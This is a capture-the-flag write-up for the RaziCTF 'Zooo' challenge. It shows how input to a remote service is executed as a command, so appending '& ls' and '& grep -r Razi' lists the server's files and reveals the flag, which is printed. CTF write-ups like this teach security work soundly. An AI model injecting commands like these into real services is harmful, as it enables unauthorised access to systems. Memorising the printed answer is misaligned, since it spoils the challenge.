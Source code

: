 ## Zooo

### Challenge Description
Almost every animal has a sound, I wonder what a flag sounds like.  
```
nc 37.152.181.193 1337
```


### Writeup

In this challenge you are given an ELF executable file and an IP address and a port which runs this file on a server. 
```
nc 37.152.181.193 1337
```
Make the file executable using `chmod +x Zooo` and run it. After giving an input, you will see a `file not found` error which means that anything you give to this file as input, will be concatenated to `./` string in order to be executed (You can use a disassembler like IDA Pro to see what really happens).  
Now connect to server and give string below as input. You will see all files in server's current directory. There is a `Flag.txt` file. 
```
Apes & ls
```
Cause you know flag format, you can grep part of it and get the flag:
```
Apes & grep -r Razi
```
Here is your flag:
```
RaziCTF{st4y_s4f3_dur!n9_th!s_p4nd3m!c}
```
